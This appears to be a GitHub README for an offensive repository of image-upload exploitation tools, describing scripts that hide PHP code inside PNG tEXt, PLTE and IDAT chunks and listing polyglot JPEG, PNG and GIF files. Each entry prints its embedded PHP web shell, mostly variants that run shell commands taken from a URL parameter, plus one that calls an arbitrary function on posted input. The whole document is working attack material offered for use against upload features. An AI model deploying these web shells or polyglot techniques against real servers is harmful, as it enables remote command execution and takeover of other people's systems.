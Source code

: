 # Image Upload Payloads and Scripts

This directory contains my payloads and scripts related to image upload vulnerabilities.

## Scripts

- **generate_tEXtPNG.php**  
  Takes 3 parameters: a PNG image, a PHP payload, and an output name.  
  Creates a new PHP file with a valid PNG structure that embeds the payload inside a custom `tEXt` chunk called `"synackt"`.

- **generatePLTE.php**  
  Takes 2 parameters: a PHP payload and an output name.  
  Creates a new PHP file with a valid PNG structure that hides the payload inside its palette (`PLTE`) instructions.

- **generateIDAT.php**  
  Very specific script.  
  Produces a `110x110` PNG image that, once resized to `55x55`, contains the exact PHP payload:  
  ```php
  <?=$_GET[0]($_POST[1]);?>

## Payloads

- **magicAd1Pixel.jpg**  
  A one-pixel JPEG image. With payload.  
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>

- **magicOnly.jpg**
  A minimal, magic-byte only JPEG image. With payload.
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($\_GET\['cmd']); ?>
  
- **PLTE1.png**
  A simple PNG image  with the payload in its PLTE section
  Generated by the PLTE script above.
  The image has an IHDR, PLTE, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo shell_exec($\_GET\['cmd']); ?>


- **commentAnd1Pixel.png**
  A one-pixel PNG image with the payload in its comment section
  Comment was added using exiftool
  The image has an IHDR, tEXtComment, IDAT, and an IEND
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?>  
  
  
  
- **realAndEnd.gif**
  A simple real GIF with the payload appended to its end
  - This wasn't tested and may not work due to unpredictable data before actual php code
  It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?> 
  
  
 - **minimal89.gif**
   A GIF consisting of only the GIF89a + payload
   It contains the following PHP payload inside:
  
  ```php
  <?php echo system($_GET['cmd']); ?> 
  
